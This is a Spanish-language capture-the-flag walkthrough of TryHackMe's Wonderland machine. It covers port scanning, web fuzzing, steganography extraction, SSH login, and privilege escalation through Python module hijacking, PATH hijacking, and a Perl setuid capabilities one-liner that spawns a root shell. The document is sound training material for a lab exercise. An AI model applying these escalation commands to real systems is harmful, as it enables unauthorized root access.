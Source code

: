 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Medium
  - HTTP
  - FuzzingWeb
  - SSH
  - PrivilegeEscalation
  - Sudo
  - Hijacking
  - Capabilities
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]
		- [[#Escalada de Privilegios#Capabilities|Capabilities]]

---
# Resolviendo la máquina Wonderland

>En esta publicación, comparto cómo resolví la máquina **Wonderland** de [TryHackMe](https://tryhackme.com/room/wonderland).

---
## Enumeración
### Ping

`ping -c 1 10.10.158.175`

![[Pasted image 20250809191402.png]]

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.158.175 -oG allPorts`

![[Pasted image 20250809191512.png]]

`nmap -p22,80 -sCV 10.10.158.175 -oN targeted`

![[Pasted image 20250809191528.png]]
### HTTP

`http://10.10.158.175`

![[Pasted image 20250809191615.png]]
#### Fuzzing Web

`dirb http://10.10.158.175`

![[Pasted image 20250809191803.png]]

`http://10.10.158.175/img/`

![[Pasted image 20250809191859.png]]

`wget http://10.10.158.175/img/alice_door.jpg`

`steghide extract -sf alice_door.jpg`

![[Pasted image 20250809192000.png]]

`wget http://10.10.158.175/img/white_rabbit_1.jpg`

`steghide extract -sf white_rabbit_1.jpg`

![[Pasted image 20250809192025.png]]

`wget http://10.10.158.175/img/alice_door.png`

`steghide extract -sf alice_door.png`

![[Pasted image 20250809192100.png]]

Se visualiza el archivo *.txt*, extraído de `white_rabbit_1.jpg`.

`cat hint.txt`

![[Pasted image 20250809192126.png]]

Se observa en el *fuzzing web*, que se encuentra un directorio `http://10.10.158.175/r/`. Con la pista que nos dan, se sobreentiende que es la palabra `rabbit`.

`http://10.10.158.175/r/`

![[Pasted image 20250809192402.png]]

`http://10.10.158.175/r/a/`

![[Pasted image 20250809192428.png]]

`http://10.10.158.175/r/a/b/`

![[Pasted image 20250809192445.png]]

`http://10.10.158.175/r/a/b/b/`

![[Pasted image 20250809192501.png]]

`http://10.10.158.175/r/a/b/b/i/`

![[Pasted image 20250809192524.png]]

`http://10.10.158.175/r/a/b/b/i/t/`

![[Pasted image 20250809192542.png]]

![[Pasted image 20250809192714.png]]

Se encontró la contraseña del usuario `alice`.

---
## Explotación
### SSH

`ssh alice@10.10.158.175`

Se busca la *flag* del usuario. Se encuentra en el directorio `/root/user.txt`.

`cat /root/user.txt`

![[Pasted image 20250809193044.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250809193158.png]]

Se encuentra el binario: `/usr/bin/python`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid).

![[Pasted image 20250809193705.png]]

`cd /home/alice`

`ls -la `

![[Pasted image 20250809193257.png]]

`cat walrus_and_the_carpenter.py`

![[Pasted image 20250809193402.png]]

Se crea el archivo: `random.py`.

`cat random.py`

![[Pasted image 20250809193458.png]]

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

![[Pasted image 20250809193730.png]]

`ls`

![[Pasted image 20250809193841.png]]

`/teaParty`

![[Pasted image 20250809194211.png]]

`python3 -m http.server 5000`

`wget http://10.10.158.175:5000/teaParty`

`strings teaParty`

![[Pasted image 20250809194057.png]]

`nano date`

`cat date`

![[Pasted image 20250809194133.png]]

`chmod 777 date`

`export PATH=.:$PATH`

`./teaParty`

![[Pasted image 20250809194254.png]]

![[Pasted image 20250809194311.png]]

`id`

![[Pasted image 20250809194548.png]]

`cd /home/hatter`

`ls`

![[Pasted image 20250809194330.png]]

`cat password.txt`

![[Pasted image 20250809194429.png]]

#### Capabilities

`getcap -r / 2>/dev/null`

![[Pasted image 20250809194504.png]]

Se encuentra el binario: `/usr/bin/perl`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities).

![[Pasted image 20250809194740.png]]

`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![[Pasted image 20250809194809.png]]

`cd /home/alice`

`cat root.txt`

![[Pasted image 20250809194929.png]]

---



